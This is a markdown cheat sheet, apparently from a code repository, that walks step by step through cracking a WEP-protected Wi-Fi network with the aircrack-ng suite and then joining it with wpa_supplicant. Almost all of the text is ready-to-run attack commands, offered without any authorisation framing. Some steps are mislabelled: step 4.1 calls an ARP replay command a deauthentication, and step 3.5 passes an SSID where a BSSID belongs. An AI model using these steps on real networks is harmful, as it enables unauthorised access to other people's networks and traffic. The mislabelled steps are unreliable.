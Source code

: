 Wired Equivalent Privacy is a severely flawed security algorithm for IEEE 802.11 wireless networks. Below are the steps to exploit WEP vulnerabilities:


### Step 1: Kill conflicting processes
```bash
sudo airmon-ng check kill
```
### Step 2: Start monitor mode on wlan0
```bash
sudo airmon-ng start wlan0
```
### Step 3: Scan for WEP networks
```bash
sudo airodump-ng wlan0mon --encrypt WEP
```
### Step 3.5: Test if injection works
```bash
sudo aireplay-ng -9 -e ESSID -a SSID wlan0mon
```
### Step 4: Capture IVs
```bash
besside-ng -c Channel -b BSSID wlan0mon
OR
sudo airodump-ng -c 3 --bssid 02:13:37:BE:EF:03 -w wep wlan0mon
```
### Step 4.1: Deauth active users
```bash
sudo aireplay-ng -3 -b BSSID -h CLIENT wlan0mon
```
### Step 5: Crack WEP key
```bash
aircrack-ng ./wep-01.cap
```
### Step 6: Create config
```
network={
	ssid="ESSID"
	scan_ssid=1
	key_mgmt=NONE
	wep_key0="WEPKEY"
}
```
*Note that the key can also be hex. then skip the quotation marks*
### Step 7: connect with Network
```bash
sudo wpa_supplicant -c wpa_supplicant.conf -i wlan0
sudo dhclient wlan0
```
### Additional WEP Attacks:
- [Hirte Attack](https://pentestlab.blog/2015/02/03/hirte-attack/)
- [Caffe Latte Attck](https://www.computerworld.com/article/2539400/cafe-latte-attack-steals-data-from-wi-fi-users.html)

